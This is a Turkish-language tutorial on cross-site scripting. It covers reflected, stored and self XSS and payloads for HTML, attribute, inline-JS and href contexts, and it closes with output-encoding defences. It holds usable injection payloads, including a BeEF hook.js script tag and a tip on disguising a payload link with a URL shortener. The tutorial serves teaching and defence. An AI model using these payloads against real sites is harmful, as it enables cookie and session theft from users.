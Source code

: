 # **0x08 | XSS hakkında herşey part 1**

## **XSS nedir?**

Açılımı cross site scripting'tir ve siteler arası betik çalıştırma olarak çevrilebilir. Xss, bir çeşit js enjeksiyonu gibi düşünülebilir. Bir web uygulamasının frontend 
kısmına yönelik bir saldırıdır.

## **XSS nerede bulunur?**

Browsera dönen response'un içeriğinde html, css ve js bulunur. Bir siber güvenlikçi perspektifiyle bakacak olursak bizim için js her zaman daha önemlidir. Çünkü js 
uygulamanın hareket kabiliyetini belirler. XSS, %99 ihtimalle browsera dönen response'un body'sinde bulunur. 

<img width="1153" height="581" alt="image" src="https://github.com/user-attachments/assets/06e5ce8c-241f-4345-b66c-14ce0efbed57" />

Arama kısmında "mehmet" şeklinde arama yapıldığında sayfada input görülebilmektedir. 

<img width="474" height="60" alt="image" src="https://github.com/user-attachments/assets/379af923-fee4-483c-a367-ac33d679c1bf" />

Sayfanın html'i incelendiğinde de aynı şekilde görülebilmektedir.

<img width="400" height="46" alt="image" src="https://github.com/user-attachments/assets/be6e3446-0980-4420-bf05-561b748b7e65" />

Browserdan web sunucusuna bir post reqesti gider ve requestte bulunan query string ya da post parametreleri ile arama kısmına yazılan içerik sunucuya ulaşır. Kullanıcının kontrol edebildiği bu mekanizma xss açığı barındırabilir. 

## **DOM(Document Object Model) Mimarisi**

Bir web sitesinde sayfayı incele kısmına tıklanıp görülen içerik ile sayfanın kaynak kodu arasında fark vardır. Çünkü sayfanın kaynak kodundaki içerik browser tarafından yorumlanmıştır. Kaynak kod kısmındaki js kodları browser'ın interpreter'ı tarafından çalıştırılmıştır ve bu js kodları DOM'un üstündeki hareketleri değiştirir. Http response'un içerisindeki html içerik, browser için bir inputtur ve bir hacker'ın amacı bu input'un içinde ufak manipülasyonlar yapmaktır. 

Site içerisinde bir arama kutusuna isim yazdınız ve url'de bu hale geldi.

```
www.x.com/?keyword=mehmet
```

Kaynak kodu ise bu hale.

```
<div id="content">
 <h2 id='pageName'>searched for: mehmet</h2>
</div>
```

Eğer biz isim yazdığımız yere bu şekilde bir js kodu yazarsak yazılımcının istemediği bir şey yapmış oluruz.

```
www.x.com/?keyword=<script>alert()</script>
```

Koda da bu şekilde yansır.

```
<div id="content">
 <h2 id='pageName'>searched for: <script>alert()</script></h2>
</div>
```

Browser, <script>alert()</script> kısmını çalıştırmaması gerektiğini anlayamaz ve js kodunu çalıştırır. İşte xss'in başladığı nokta burasıdır. 

## **Verilerin farklı ortamlardaki durumu**

Web uygulamasına girilen data, php interpreterında bir data olsa da browsera response olarak geri döndüğünde data artık tag olur ve bu xss'i doğurur. 

<img width="434" height="201" alt="image" src="https://github.com/user-attachments/assets/dcc0a012-53ac-40f8-9cc3-a2195f906f78" />

Neden sürekli <script>alert()</script> denendiği sebebine gelirsek. Bu, pop-up çalıştırmamızı ve zafiyetin tespit edilmesini sağlar. İşin sömürü kısmına gelecek olursak frontend kısmının bozulması, cookilerin ve sessionların çalınması gibi şeylere yol açar xss.

## **BEEF XSS exploitation framework**

BeEF, profesyonel penetrasyon test cihazının istemci taraflı saldırı vektörlerini kullanarak gerçek bir hedef güvenlik ortamını değerlendirebilmesini sağlayan bir framework'tür.

Beef'i çalıştırdıktan sonra terminalde çıkan 2 ip.

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://127.0.0.1:3000/hook.js"></script>
```

"<script>alert()</script>" ile xss'in tespit edildiği yerde "<script src="http://127.0.0.1:3000/hook.js"></script>" çalıştırıyoruz ve beef panelinde online browsers kısmında siteyi görüyoruz. Burdan sonra command kısmında gelip cookielerin çalınmasından sosyal mühendislik saldırılarına kadar pek çok şey yapılabilir.

## **Reflected XSS**

Şimdiye kadar anlatılan xss aslında reflected xss idi. Türkçesi yansıyan xss anlamına gelen bu zafiyet türü, requesti gönderen bir kişinin browser'ında gerçekleşir. Birçok kullanıcının request-response cycle'ı vardır ve bunlar birbirinden bağımsızdır. Bu yüzden de bir saldırgan reflected xss bulduğu zaman bu başka kullanıcılar tarafından görülmez. 

Url shortener sitesine aşağıdaki url'i verildiğinde

```
http://boylebirsiteyok/?keyword=<script>alert(1)</script>
```

böyle bir url'e dönüştürecektir.

```
https://shorturl.at/mh965
```

Bu url'e tıklayan bir kullanıcı, hedef websitesine gider ve giderken browser tüm cookieleri ekler.

## **Stored XSS**

Reflected xss'in web app'ten gelen response'ta olduğundan bahsetmiştik. Şimdi bundan daha kötü bir senaryodan bahsedeceğiz. Payload'ın db'e kaydedildiği durum yani stored xss. Hatta bu db'den faydalanan başka web servisleri ve app'ler bile bu durumdan etkilenebilir. Stored xss kalıcı olarak sitede bulunur ve başka kullanıcılar da bundan etkilenir. Örneğin bir forum sayfasında bir saldırgan yorum olarak xss payload'ı ekledi. Yorumu gören bütün site kullanıcıları bu xss saldırısına maruz kalır. 

## **Self XSS**

Bir banka uygulamasına adres bilgileri girildiğinde kod kısmında böyle gözüktüğünü varsayalım.

```
<html>
 <header></header>
 <body>
  <textarea>
   adres bilgileri...
  </textarea>
 </body>
</html>
```

Adres yerine xss payloadı yazıldığında text'e dönüşecektir bu yüzden payload'ı yazarken <textarea> tag'i kapatılmalı. 

```
 <body>
  <textarea>
   </textarea><script>alert(1)</script>
  </textarea>
 </body>
```

Bu uygulamada kullanıcının kendisinden başka kimse adresini göremez. Dolayısıyla xss'i de kimse göremez yani bu bir self xss zafiyetidir. Self xss zafiyetini sömürmek için sosyal mühendislik gerekir.

## **XSS nasıl engellenir?**

Xss html ile birleşilen output'un verildiği yerde engellenir. Çünkü zafiyet oluştuğu yerde engellenmeli. Input validation ile form alanındaki taglerin gelmesi engellense bile uygulamaya başka yerlerden gelen inputlar yüzünden xss yine ortaya çıkacaktır. Bu yüzden tedbir alırken bütüncül yaklaşmak faydalı olacaktır.

### **Html Context**

Kullanıcının, bu adrese gittiğini varsayalım.

```
www.x.com/?keyword=mehmet
```

Keyword parametresine bu şekilde xss payloadı yazarsak...

```
www.x.com/?keyword=<script>alert(1)</script>
```

Sayfanın içeriğinde buna benzer bir sonuç bekleriz

```
<html>
 <body>
  <p>
   Aradığınız kelime <script>alert(1)</script>
  </p>
 </body>
</html>
```

Eğer output encoding yapılmışsa sonuç böyle gözükür ve xss saldırısı da engellenir. Eğer tag olmazsa xss de olmaz.

```
<html>
 <body>
  <p>
   Aradığınız kelime &lt;script&gt;alert(1)&lt;/script&gt;
  </p>
 </body>
</html>
```

### **Attribute Context**

Url'de verdiğimiz payload'ın, inputun value attribute'unda olduğunu varsayalım. 

```
<html>
 <body>
  <form>
   <input name="keyword" value="<script>alert(1)</script>">
  </form>
 </body>
</html>
```

Burada yazılan payload value'da olduğundan önce value attribute'undan kurtulmak gerekir. Bunun için;
Payload'ı böyle verildiğinde.

```
www.x.com/?keyword="><script>alert(1)</script>
```

Sonuç da böyle olacaktır.

```
<html>
 <body>
  <form>
   <input name="keyword" value=""><script>alert(1)</script>">
  </form>
 </body>
</html>
```

Encoding yapılması bu saldırının da önüne geçecektir fakat tag'in dışına çıkmadan da saldırı yapılabilir.

Saldırı kodu böyle olursa:

```
www.x.com/?keyword=" onmouseover="alert(1)
```

Mouse içeriğin üzerine geldiği anda pop-up çıkar.

```
<html>
 <body>
  <form>
   <input name="keyword" value="" onmouseover="alert(1)">
  </form>
 </body>
</html>
```

Bu saldırı yöntemlerinden dolayı ' ve " ların da encode edilmesi gerekmektedir. Hatta internet explorer'ın eski sürümlerinde `` yazıldığında tag kapanır. Yani ` işareti de encode edilmeli.

### **JSINLINE CONTEXT**

Id parametresi olan bir url.

```
www.x.com/?id=
```

Html kodları.

```
<html>
 <body>
  <form>
   <input name="button" onclick="saveForm()">
  </form>
 </body>
</html>
```

Eğer id parametresine alert(1) verilirse...

```
www.x.com/?id=alert(1)
```

saveForm'un içinde çalışacaktır.

```
<html>
 <body>
  <form>
   <input name="button" onclick="saveForm(alert(1))">
  </form>
 </body>
</html>
```

### **HREF Context**

Eğer kullanıcı verisi href kısmının içine geliyorsa saldırganlar bu şekilde de pop-up çıkarabilir.

```
<html>
 <body>
  <a href="javascript:alert(1)">click me</a>
 </body>
</html>
```

Bundan da anlaşılacağı üzere her context'te encode edilmesi gereken karakter değişiyor. Peki developerlar xss'i nasıl engelleyecek?

### **Developerlar için önlemler**

Xss'in oluştuğu yer response'un body'sidir yani xss'in çözüleceği yer burasıdır. Alınan input doğrulanıp öyle encode edilmeli çünkü input'un encode edilmesi veriyi bozabilir. 

Buradaki motto şu olmalıdır : "Input validation, output encoding".

Yazılımcı bu işe bakarken ilk olarak context'e bakmalı.

```
<html>
 <body>
  <a href="{{encoder.HrefContextEncoder($untrusted_data)}}">click me</a>
 </body>
</html>
```

Eğer sadece untrusted data verilirse browser'ın temel encodingleri yapılmış olur. 

```
<a href="{{$untrusted_data}}">click me</a>
```

Bu yüzden encoding kütüphanelerini kullanarak context'e özel encoding yapılmalı.
